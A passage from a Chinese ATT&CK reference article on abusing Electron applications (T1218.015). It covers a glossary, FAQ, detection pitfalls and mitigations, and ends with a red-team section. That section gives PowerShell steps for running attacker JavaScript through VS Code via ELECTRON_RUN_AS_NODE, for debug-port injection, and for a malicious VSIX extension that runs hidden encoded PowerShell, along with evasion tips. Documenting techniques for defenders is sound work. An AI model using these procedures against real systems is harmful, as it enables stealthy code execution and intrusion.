- [[T1574.001-DLL-Search-Order-Hijacking|DLL搜索顺序劫持 (T1574.001)]] - DLL 加载相关技术
- [[T1195-Supply-Chain-Compromise|供应链攻击 (T1195)]] - 恶意 npm 包供应链攻击
- [[T1204-User-Execution|用户执行 (T1204)]] - 钓鱼附件诱导执行

## 12. 版本历史

| 时间 | ATT&CK 版本 | 变更内容 |
|------|-------------|----------|
| 2022-04-25 | ATT&CK v11 | Electron Applications (T1218.015) 作为子技术首次引入 Enterprise 矩阵 |
| 2022-10-25 | ATT&CK v12 | 技术描述细化，明确 Electron 应用的 Node.js 集成滥用机制 |
| 2023-04-25 | ATT&CK v13 | 平台与权限要求字段标准化，明确 Windows/Linux/macOS 三平台支持 |
| 2024-04-24 | ATT&CK v15 | 检测策略细化，新增对 --inspect、ELECTRON_RUN_AS_NODE 的监控建议 |
| 2025-04-30 | ATT&CK v19 | Defense Evasion 拆分为 Stealth (TA0005) 与 Defense Impairment (TA0112)，Electron Applications 归入 Stealth |
| 2026-07-28 | ATT&CK v19.1 | 本文档基于 v19.1 编写，技术描述与检测建议对齐最新版本 |

## 13. 术语表

| 术语 | 通俗解释 |
|------|---------|
| **ATT&CK** | MITRE 公司维护的攻击技术知识库，全球安全行业的事实标准 |
| **Electron Applications** | T1218.015，滥用 Electron 框架应用执行任意代码 |
| **Electron** | GitHub 开发的跨平台桌面应用框架，组合 Chromium + Node.js |
| **Chromium** | Google 开发的开源浏览器引擎，Chrome 的基础 |
| **Node.js** | 基于 V8 引擎的 JavaScript 运行时，可在服务器端执行 JavaScript |
| **主进程** | Electron 应用中的 Node.js 进程，控制应用生命周期与系统资源 |
| **渲染进程** | Electron 应用中的 Chromium 进程，负责显示 Web 内容 |
| **nodeIntegration** | Electron 配置项，控制渲染进程是否启用 Node.js 集成 |
| **contextIsolation** | Electron 配置项，隔离渲染进程的上下文，防止恶意页面访问 Node.js API |
| **ELECTRON_RUN_AS_NODE** | 环境变量，设置后 Electron 应用以纯 Node.js 模式运行 |
| **--inspect** | Electron/Node.js 调试开关，开启 Chrome DevTools Protocol 调试端口 |
| **VSIX** | VS Code 扩展包格式（ZIP 压缩包） |
| **child_process** | Node.js 模块，提供创建子进程执行系统命令的能力 |
| **fs** | Node.js 文件系统模块，提供文件读写操作能力 |
| **Chrome DevTools Protocol** | Chrome 调试协议，允许外部程序控制 Chrome/Electron 实例 |
| **npm** | Node.js 包管理器，用于安装 JavaScript 包 |
| **LOLBin** | Living Off The Land Binary，滥用合法系统二进制执行恶意操作 |
| **系统二进制代理执行** | T1218，本子技术所属的父技术类别 |
| **隐蔽** | 攻击链中的一个阶段（TA0005），原 Defense Evasion 拆分而来 |
| **C2** | Command and Control，命令与控制，攻击者远程控制受害主机的通道 |
| **EDR** | Endpoint Detection and Response，端点检测与响应 |
| **AppLocker** | Windows 应用控制策略，限制可执行文件运行 |
| **WDAC** | Windows Defender Application Control，基于代码完整性策略的应用控制 |
| **Sysmon** | Windows Sysinternals 系统监控工具，记录进程、文件、网络等事件 |
| **供应链攻击** | T1195，通过污染软件供应链（如 npm 包）攻击最终用户 |

## 14. 常见问题

### Q1: Electron 应用与传统 LOLBin 的区别是什么？

A: 主要区别在于：
- **传统 LOLBin**（如 rundll32.exe、regsvr32.exe）：Windows 系统自带二进制，位于 System32 目录
- **Electron 应用**：第三方厂商开发的应用，位于用户安装目录，但具有类似 LOLBin 的特征：受信任签名、可被滥用执行任意代码、应用控制默认信任

Electron 应用的特殊性在于跨平台（Windows/Linux/macOS）与完整 Node.js 运行时，攻击面比传统 LOLBin 更广。

### Q2: ELECTRON_RUN_AS_NODE 是否需要管理员权限？

A: 不需要。普通用户权限即可设置 `ELECTRON_RUN_AS_NODE` 环境变量并启动 Electron 应用——这意味着低权限用户即可实施此攻击，无需提权。

### Q3: Electron 应用在所有平台上的滥用方式是否相同？

A: 大体相同，但有细微差异：
- **Windows**：可使用 `set` 命令设置环境变量，应用路径为 `.exe`
- **Linux**：使用 `export` 设置环境变量，应用路径为可执行文件
- **macOS**：应用位于 `.app` 包内，需调用 `Contents/MacOS/` 下的可执行文件

### Q4: 应用控制（AppLocker / WDAC）默认是否阻止 Electron 应用？

A: 不阻止。AppLocker 默认规则允许用户目录下的可执行文件运行（默认规则允许 `%LOCALAPPDATA%\*`）。WDAC 默认策略同样信任用户安装的应用。需要显式添加 Deny 规则才能阻止特定 Electron 应用或带调试参数的启动。

### Q5: 如何区分 Electron 应用的合法调试与恶意调试？

A: 关键判断点：
- **用户身份**：合法调试通常由开发者用户触发；恶意调试可能由普通用户触发
- **调试目标**：合法调试针对开发项目；恶意调试针对已安装的应用本身
- **网络连接**：合法调试连接本地或开发环境；恶意调试可能连接外部 C2 服务器
- **子进程**：合法调试通常执行构建工具（npm、tsc、git）；恶意调试执行系统命令（powershell、cmd）

### Q6: VS Code 扩展市场是否有安全审核？

A: 微软对 VS Code Marketplace 的扩展有基本审核，但无法完全防止恶意扩展上架。历史上多次发现恶意扩展绕过审核。建议企业建立内部扩展白名单，仅允许安装经审核的扩展。

### Q7: Electron 应用是否可以完全禁用 Node.js 集成？

A: 不可以。Electron 应用的主进程必须使用 Node.js，禁用主进程的 Node.js 集成会导致应用无法运行。可以禁用渲染进程的 Node.js 集成（`nodeIntegration: false`），但主进程的 Node.js 能力无法被禁用——这正是攻击者滥用的目标。

### Q8: 如何检测通过 Chrome DevTools Protocol 注入的 JavaScript？

A: 检测点：
- 监控 Electron 应用启动时的 `--inspect` 参数
- 监控 9229、9222 等调试端口的网络连接
- 监控 Electron 应用进程的异常 `child_process.exec` 调用
- 监控 Electron 应用进程的异常网络外联

## 15. 检测陷阱与误报

### 15.1 常见误报场景

1. **开发者合法调试**：开发者使用 VS Code 的 `--inspect` 参数调试 Node.js 应用，这是合法的开发活动。这些合法调用通常由开发者用户触发，且命令行包含项目路径。
2. **应用自动更新**：Electron 应用（如 Slack、Discord、Teams）的自动更新机制会启动子进程执行更新脚本，可能触发"Electron 应用创建子进程"的告警。
3. **VS Code 集成终端**：开发者使用 VS Code 集成终端执行命令，VS Code 进程作为父进程创建 cmd/powershell 子进程。
4. **应用内置功能**：某些 Electron 应用（如 VS Code 的任务运行器）会执行配置文件中指定的命令，可能触发告警。

### 15.2 检测陷阱

1. **仅监控命令行**：仅通过命令行匹配 Electron 应用调试会漏掉通过环境变量（`ELECTRON_RUN_AS_NODE` 在用户环境中预设）触发的变种。
2. **忽视环境变量**：仅监控命令行，未监控 `ELECTRON_RUN_AS_NODE` 环境变量的设置，可能漏掉以纯 Node.js 模式启动的攻击。
3. **忽视子进程**：仅监控 Electron 应用本身，未关联其创建的子进程，难以发现恶意代码执行。
4. **忽视网络外联**：仅监控进程行为，未关联 Electron 应用进程的网络连接，无法发现 C2 通信。
5. **忽视扩展安装**：仅监控进程，未监控 VS Code 扩展安装日志，无法发现恶意扩展。
6. **忽视配置文件**：仅监控进程，未监控 `.vscode/tasks.json` 等配置文件修改，无法发现配置滥用。
7. **依赖单一检测层**：仅依赖进程创建事件，未关联子进程创建、网络外联、文件操作等多源事件。

### 15.3 误报降低策略

- **用户白名单**：开发者用户合法使用调试功能，建立开发者用户白名单，告警仅针对非开发者用户
- **子进程白名单**：VS Code 等应用合法创建的子进程（git、npm、tsc、eslint、prettier）建立白名单，告警仅针对非白名单子进程
- **网络目标白名单**：Electron 应用合法连接的云端服务（如 VS Code 连接 Microsoft 服务、Slack 连接 Slack 服务）建立白名单，告警仅针对非白名单目标
- **调试目标白名单**：合法调试通常针对本地项目，告警仅针对远程调试（`--remote-debugging-port`）或非项目路径的调试
- **关联分析**：将 Electron 应用执行与子进程创建、网络外联、文件操作事件关联，形成完整攻击链告警

## 16. 缓解优先级

### 优先级 1：关键措施（必做）

**M1042 禁用/移除功能（限制调试开关）**

通过应用控制策略阻止带调试参数（`--inspect`、`--inspect-brk`、`--remote-debugging-port`）的 Electron 应用启动。在不需要调试的企业终端中，这是最直接、最有效的缓解措施。

**M1051 清除环境变量（清除 ELECTRON_RUN_AS_NODE）**

在系统启动脚本中清除 `ELECTRON_RUN_AS_NODE` 环境变量，防止攻击者预设此变量以纯 Node.js 模式启动 Electron 应用：

```bash
# Windows (组策略启动脚本)
reg delete "HKCU\Environment" /v ELECTRON_RUN_AS_NODE /f 2>nul
reg delete "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v ELECTRON_RUN_AS_NODE /f 2>nul

# Linux/macOS (登录脚本)
unset ELECTRON_RUN_AS_NODE
```

### 优先级 2：重要措施（推荐）

**M1028 行为监控**

部署 EDR 和 SIEM 系统，针对 Electron 应用进程创建、调试参数、子进程创建、网络外联建立关联告警规则（详见第 7 节）。建议至少监控以下行为：
- Electron 应用带调试参数启动
- `ELECTRON_RUN_AS_NODE` 环境变量设置
- Electron 应用创建可疑子进程（powershell/cmd/bash/node/wscript）
- Electron 应用加载非应用目录的 JavaScript 文件
- Electron 应用进程发起异常网络外联

**M1038 执行预防（扩展市场管控）**

- 企业内部建立 VS Code 扩展白名单，仅允许安装经审核的扩展
- 通过组策略禁止从 VS Code Marketplace 安装未审核扩展
- 定期审计已安装扩展，识别可疑扩展

### 优先级 3：建议措施（可选）

**M1017 安全意识培训**

教育员工与开发者：
- 不要安装来源不明的 VS Code 扩展
- 不要随意打开陌生项目的 `.vscode` 配置
- 警惕带 `--inspect` 参数启动的应用
- 警惕设置 `ELECTRON_RUN_AS_NODE` 环境变量的脚本

**M1047 审计（配置文件监控）**

监控 `.vscode/tasks.json`、`.vscode/launch.json`、`.vscode/settings.json` 的修改，识别可疑的工作区配置。使用版本控制追踪配置文件变更。

## 17. 红队视角

> 免责声明：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 17.1 实战技巧

1. **深入理解原理**：掌握 Electron 框架架构（主进程、渲染进程、Node.js 集成）、滥用方式（`ELECTRON_RUN_AS_NODE`、`--inspect`、扩展、配置文件）、Node.js API（`child_process`、`fs`、`net`、`http`）、Chrome DevTools Protocol、Electron 安全配置（`nodeIntegration`、`contextIsolation`）。
2. **环境适配**：先侦察目标环境——确认已安装的 Electron 应用（VS Code、Slack、Discord 等）；检查应用控制策略是否阻止调试参数；评估目标的 EDR 监控能力；识别开发者用户（更易通过社工诱导打开恶意项目）。
3. **目标应用选择**：选择受信任的 Electron 应用作为代理执行目标；选择具有网络访问权限的应用（方便 C2 通信）；选择长期运行的应用（如 Slack、Discord，实现持久化）；避免选择敏感应用（如银行应用，可能触发额外监控）。
4. **组合使用**：与用户执行（T1204）组合触发；与持久化（T1547.001 Run 键、T1053 计划任务）组合；与供应链攻击（T1195）组合，通过恶意 npm 包植入；与凭证窃取（T1003）链式使用，调用 Mimikatz 等工具。
5. **隐蔽性考虑**：恶意 JavaScript 文件名伪装成应用组件；放置在应用目录的子目录中；使用 JavaScript 混淆器混淆代码；执行后删除 JavaScript 文件；利用已存在的合法扩展作为载体。

### 17.2 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
| -------- | ---- | ---- | ---- |
| VS Code | 微软开发的代码编辑器，基于 Electron | 跨平台 | https://code.visualstudio.com/ |
| Slack | 团队协作工具，基于 Electron | 跨平台 | https://slack.com/ |
| Discord | 即时通讯工具，基于 Electron | 跨平台 | https://discord.com/ |
| chrome-remote-interface | Chrome DevTools Protocol 客户端 | Node.js | https://github.com/cyrus-and/chrome-remote-interface |
| javascript-obfuscator | JavaScript 代码混淆器 | Node.js | https://github.com/javascript-obfuscator/javascript-obfuscator |
| vsce | VS Code 扩展打包工具 | Node.js | https://github.com/microsoft/vscode-vsce |
| Process Monitor | 监控 Electron 应用行为 | Windows | [Sysinternals Process Monitor](https://docs.microsoft.com/sysinternals/downloads/procmon) |
| Atomic Red Team | T1218.015 检测规则测试用例 | 跨平台 | [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team) |

### 17.3 攻击操作流程（红队实战）

**方式1：ELECTRON_RUN_AS_NODE 直接执行**

```powershell
# 步骤1：编写恶意 JavaScript 文件
# evil.js 内容示例：
# const { exec } = require('child_process');
# exec('powershell.exe -w hidden -enc <base64>');

# 步骤2：投递 JavaScript 文件到目标主机
# (通过钓鱼附件、二阶段下载等方式)
$jsPath = "C:\Users\Public\evil.js"

# 步骤3：设置环境变量并启动 VS Code 以 Node.js 模式运行
$env:ELECTRON_RUN_AS_NODE = "1"
& "C:\Users\user\AppData\Local\Programs\Microsoft VS Code\Code.exe" $jsPath

# 步骤4：（可选）清理痕迹
Remove-Item -Path $jsPath -Force
```

**方式2：--inspect 调试端口注入**

```powershell
# 步骤1：启动 VS Code 并开启调试端口
& "C:\Users\user\AppData\Local\Programs\Microsoft VS Code\Code.exe" --inspect=9229 &

# 步骤2：等待调试端口就绪
Start-Sleep -Seconds 3

# 步骤3：获取调试目标列表
$targets = Invoke-RestMethod -Uri "http://localhost:9229/json"

# 步骤4：通过 WebSocket 连接调试端口，注入 JavaScript
# (使用 chrome-remote-interface 或自定义 CDP 客户端)
# 注入的 JavaScript 调用 child_process.exec 执行系统命令
```

**方式3：恶意 VS Code 扩展**

```powershell
# 步骤1：编写恶意扩展
# extension.js 内容示例：
# const vscode = require('vscode');
# const { exec } = require('child_process');
# function activate(context) {
#     exec('powershell.exe -w hidden -enc <base64>');
# }

# 步骤2：使用 vsce 打包扩展
vsce package

# 步骤3：投递 VSIX 文件到目标主机
# (通过钓鱼附件、二阶段下载等方式)

# 步骤4：引导受害者安装扩展
# (通过社工诱导："请安装这个 VS Code 扩展以查看项目")
code --install-extension evil-extension-1.0.0.vsix

# 步骤5：VS Code 启动时自动加载扩展，执行恶意代码
```

### 17.4 注意事项

- 在授权的测试环境中使用这些技术，确保遵守相关法律法规
- 注意操作安全（OPSEC），避免被检测系统发现：
  - 执行后删除磁盘上的 JavaScript 文件
  - 避免在命令行中暴露完整的 JavaScript 路径（可使用短路径或环境变量）
  - 选择合理的父进程触发 Electron 应用（如通过 explorer.exe 间接启动）
  - 使用 JavaScript 混淆器混淆恶意代码
- 使用匿名化技术和代理隐藏真实身份
- 注意 Electron 应用在不同操作系统上的路径差异
- 注意不同 Electron 应用版本的 API 差异
- 警惕 Chrome DevTools Protocol 连接被监控的风险

### 17.5 与其他 LOLBin 的对比

| LOLBin | 跨平台 | 命令行暴露 | 持久化能力 | 适用场景 |
|--------|--------|------------|------------|----------|
| Electron 应用 | 是（Windows/Linux/macOS） | 中等（参数与环境变量） | 强（扩展、配置文件） | 跨平台代理执行，利用受信任应用 |
| verclsid.exe | 否（仅 Windows） | 仅 CLSID（DLL 路径隐藏） | 中（注册表项） | Windows 隐蔽 DLL 加载 |
| rundll32.exe | 否（仅 Windows） | DLL 路径与函数名 | 弱 | Windows 快速 DLL 执行 |
| mavinject.exe | 否（仅 Windows） | PID 与 DLL 路径 | 中（注入长期进程） | Windows 进程注入 |
| regsvr32.exe | 否（仅 Windows） | DLL 路径 | 中（COM 注册） | Windows COM 组件伪装 |

Electron 应用的核心优势在于跨平台支持与完整 Node.js 运行时能力，攻击面比传统 Windows LOLBin 更广；劣势在于需要目标主机已安装相应的 Electron 应用。
